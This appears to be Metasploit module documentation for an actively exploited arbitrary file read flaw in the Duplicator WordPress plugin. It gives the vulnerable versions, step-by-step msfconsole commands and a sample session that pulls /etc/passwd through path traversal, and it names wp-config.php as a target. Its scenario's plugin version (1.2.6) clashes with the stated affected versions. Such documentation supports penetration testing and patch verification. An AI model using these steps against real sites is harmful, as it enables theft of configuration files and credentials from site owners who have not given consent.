 ## Description
The issue is being actively exploited, and allows attackers to download arbitrary files, such as the wp-config.php file.
According to the vendor, the vulnerability was only in two versions v1.3.24 and v1.3.26, the vulnerability wasn't present in versions 1.3.22 and before.

Changelog : https://snapcreek.com/duplicator/docs/changelog/

Vulnerable version: https://downloads.wordpress.org/plugin/duplicator.1.3.24.zip ,https://downloads.wordpress.org/plugin/duplicator.1.3.26.zip

## Verification Steps

1. Start `msfconsole`
2. `use auxiliary/scanner/http/wp_duplicator_file_read`
3. Set the `RHOSTS`
4. Set the `RPORT`
5. Run the exploit: `run`
 

## Scenarios


Ubuntu 20.04 running WordPress 5.6, Duplicator 1.2.6

```
msf5 > use auxiliary/scanner/http/wp_duplicator_file_read
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set rport 8080
rport => 8080
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set FILEPATH /etc/passwd
FILEPATH => /etc/passwd
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set DEPTH 5
DEPTH => 5

msf5 auxiliary(scanner/http/wp_duplicator_file_read) > run

[*] Downloading file...

[....Content File....]

[+] File saved in: /root/.msf4/loot/20201211005722_default_13.250.118.98_duplicator.trave_383073.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

